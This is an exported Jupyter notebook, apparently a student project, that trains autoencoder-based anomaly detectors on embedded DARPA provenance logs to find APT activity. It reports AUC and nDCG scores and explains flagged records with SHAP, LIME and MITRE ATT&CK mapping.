    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter to reveal all important drivers
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # [THE FIX]: Sort by absolute impact to catch strongest drivers regardless of sign
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter to reveal all important drivers
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_uae_large_v1\theia_ProcessAll_Baseline.pth
Loading WhereIsAI/UAE-Large-V1 on CUDA in full precision...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\hub\models--WhereIsAI--UAE-Large-V1. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'has' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'clone' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Ex

### 2. `dunzhang/stella_en_400M_v5` - Static embeddings

#### Embedding generation

In [2]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'dunzhang/stella_en_400M_v5'

# Stella 400M is very small and fast.
BATCH_SIZE = 128

# [CRITICAL UPDATE] Define paths on D: Drive
# This folder will hold the downloaded model (~1.6GB)
CACHE_DIR = "D:/hf_cache" 

# This folder will hold your results
SAVE_DIR = "processed_embeddings_stella_400m"

# Create the directories if they don't exist
os.makedirs(CACHE_DIR, exist_ok=True)
os.makedirs(SAVE_DIR, exist_ok=True)

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")
print(f"Cache directory set to: {CACHE_DIR}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
# We pass 'cache_dir=CACHE_DIR' to force it to use the D drive
tokenizer = AutoTokenizer.from_pretrained(
    MODEL_NAME, 
    trust_remote_code=True,
    cache_dir=CACHE_DIR  # <--- MOVED TO D:
)

model = AutoModel.from_pretrained(
    MODEL_NAME, 
    trust_remote_code=True,
    torch_dtype=torch.float16,
    device_map=device,
    cache_dir=CACHE_DIR  # <--- MOVED TO D:
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: MEAN POOLING (Standard for Stella)
# ==========================================
def mean_pooling(token_embeddings, attention_mask):
    """
    Standard Mean Pooling.
    Averages the token embeddings, ignoring padding tokens.
    """
    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
    return torch.sum(token_embeddings * input_mask_expanded, 1) / torch.clamp(input_mask_expanded.sum(1), min=1e-9)

def get_stella_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        batch_dict = tokenizer(
            batch_texts, 
            max_length=1024, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # Stella uses Mean Pooling
            embeddings = mean_pooling(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_stella_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (TO D: DRIVE)
# ==========================================
print(f"\nAttempting to save chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_stella_400m.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

Using device: CUDA
Cache directory set to: D:/hf_cache
Loading model: dunzhang/stella_en_400M_v5...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\xformers\ops\fmha\flash.py:211: FutureWarning: `torch.library.impl_abstract` was renamed to `torch.library.register_fake`. Please use that instead; we will remove `torch.library.impl_abstract` in a future version of PyTorch.
  @torch.library.impl_abstract("xformers_flash::flash_fwd")
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\xformers\ops\fmha\flash.py:344: FutureWarning: `torch.library.impl_abstract` was renamed to `torch.library.register_fake`. Please use that instead; we will remove `torch.library.impl_abstract` in a future version of PyTorch.
  @torch.library.impl_abstract("xformers_flash::flash_bwd")
Some weights of the model checkpoint at dunzhang/stella_en_400M_v5 were not used when initializing NewModel: ['pooler.dense.bias', 'pooler.dense.weight']
- This IS expected if you are initializing NewModel from the checkpoint of a model trained on another task or with another archi

Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (dunzhang/stella_en_400M_v5)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---
  -> ProcessEvent

#### Train test Split

In [7]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your Stella 400M generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_stella_400m" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_stella_400m"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing Stella suffixes
    key_name = filename.replace(".pkl", "").replace("_stella_400m", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR STELLA-400M!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_stella_400m
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_stella_400m.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_stella_400m\5dir\train\ProcessAll.pkl and final_train_test_split_stella_400m\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_stella_400m.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_stella_400m\5dir\train\ProcessEvent.pkl and final_train_test_split_stella_400m\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_stella_400m.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (2223, 1024)
  ✓ Saved to: final_train_test_split_

#### Training and saving `.pth` files

In [11]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for Stella-400M-v5
BASE_DIR = "final_train_test_split_stella_400m"
RESULTS_FILE = "results_all_autoencoders_stella_400m.csv"
MODEL_SAVE_DIR = "saved_weights_stella_400m"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] dunzhang/stella-en-400M-v5 uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9253 | nDCG: 0.3389 (DCG: 1.4418, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.7948 | nDCG: 0.3313 (DCG: 1.4096, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9444 | nDCG: 0.4062 (DCG: 1.7284, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.8961 | nDCG: 0.3114 (DCG: 1.3247, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.7823 | nDCG: 0.2802 (DCG: 1.1921, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.8384 | nDCG: 0.3226 (DCG: 1.3725, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.7151 | nDCG: 0.3137 (DCG: 1.3348, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9355 | nDCG: 0.3225 (DCG: 1.3721, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9337 | nDCG: 0.3146 (DCG: 1.3385, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9365 | nDCG: 0.3281 (D

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
